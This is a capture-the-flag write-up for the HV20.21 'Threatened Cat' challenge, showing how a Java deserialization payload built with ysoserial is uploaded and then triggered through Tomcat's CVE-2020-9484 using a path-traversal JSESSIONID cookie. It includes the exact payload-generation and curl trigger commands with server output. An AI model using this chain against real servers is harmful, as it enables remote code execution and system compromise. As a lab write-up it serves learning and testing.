




# HV20.21 Threatened Cat

_You can feed this cat with many different things, but only a certain kind of file can endanger the cat._

_Do you find that kind of files? And if yes, can you use it to disclose the flag? Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`._

_**Note**: The cat is currently in hibernation and will take a few seconds to wake up._

---



I was fiddling a bit with the page, trying different file types. For example, a PNG image:



Then I noticed this:
```
/cat/;jsessionid=E6BA5F20B87ED0F4CC127E2F01763660
```

`jsessionid` points to a Java based app. Java is well-known for rather **insecure (de)serialization.**

I recalled doing something similar in the past using [ysoserial](https://github.com/frohoff/ysoserial) lib.

Let's download it and try a random payload:
```
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections1 'sleep 5' > CommonsCollections1.ser
$ xxd CommonsCollections1.ser | head
00000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
00000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
00000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
00000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
00000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
00000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469  luest..Ljava/uti
00000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011  l/Map;L..typet..
00000070: 4c6a 6176 612f 6c61 6e67 2f43 6c61 7373  Ljava/lang/Class
00000080: 3b78 7073 7d00 0000 0100 0d6a 6176 612e  ;xps}......java.
00000090: 7574 696c 2e4d 6170 7872 0017 6a61 7661  util.Mapxr..java
```

Feed the cat with `CommonsCollections1.ser`:
```
Uploading CommonsCollections1.ser
[I]: Uploading File
[I]: Filename: CommonsCollections1.ser
[I]: Size: 1399 Bytes
[I]: Content-Type: application/octet-stream
[I]: File stored at /usr/local/uploads/CommonsCollections1.ser
[I]: Detected content: Java serialization data, version 5
[W]: Exactly this kind of things is threatening this cat
```

Great, we're on the right track. 

Browsing through the payload available in _ysoserial_, I was intrigued by
[FileUpload1](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/FileUpload1.java):
```
 * Yields:
 * - copy an arbitraty file to an arbitrary directory (source file is deleted if possible)
```

That's exactly what I need. Copy `/usr/bin/catnip.txt` into `/usr/local/uploads/`. However, this is not
the right payload...

## CVE-2020-9484

At first, we need some mechanism to _trigger the payload_. 

I was able to provoke an error by calling a non-existing path in the URL:



Now we know the exact Tomcat version. Maybe there is some vulnerability to exploit...

Googling for `tomcat 9.0.34 vulnerabilities` points to
https://www.cybersecurity-help.cz/vdb/apache_foundation/apache_tomcat/9.0.34/.

There is an RCE ([CVE-2020-9484](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484))!
Our setup matches perfectly the required conditions:
> The vulnerability allows a remote attacker to execute arbitrary code on the target system.

> The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

> Successful exploitation of this vulnerability may result in complete compromise of vulnerable system but requires that the server is configured to use PersistenceManager with a FileStore and the attacker knows relative file path from storage location.

Read [Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
to understand how it works.

**The plan is**:
1) Upload the payload crafted with _ysoserial_
2) Trigger it using CVE-2020-9484

The last piece is to find out which payload does work. I started with `CommonsCollectionsX` as I have
seen it in the past. I got lucky on my 2nd try:
```
java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'cp /usr/bin/catnip.txt /usr/local/uploads/' > CommonsCollections2.session
```

Feed the cat with `CommonsCollections2.session`:
```
Uploading CommonsCollections2.session
...
[W]: This cat is really threatened, now
```

The message is different now, we are getting close!

The last step, trigger the payload:
```
$ curl -sH 'Cookie: JSESSIONID=../../../../../..//usr/local/uploads/CommonsCollections2' https://778fc77f-9870-4135-902c-981d0118c962.idocker.vuln.land/cat/
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
        org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:137)
        org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
        java.base&#47;java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:713)
```

HTTP 500 is expected. The payload was executed. You can download the file with flag:



The flag is `HV20{!D3s3ri4liz4t10n_rulz!}`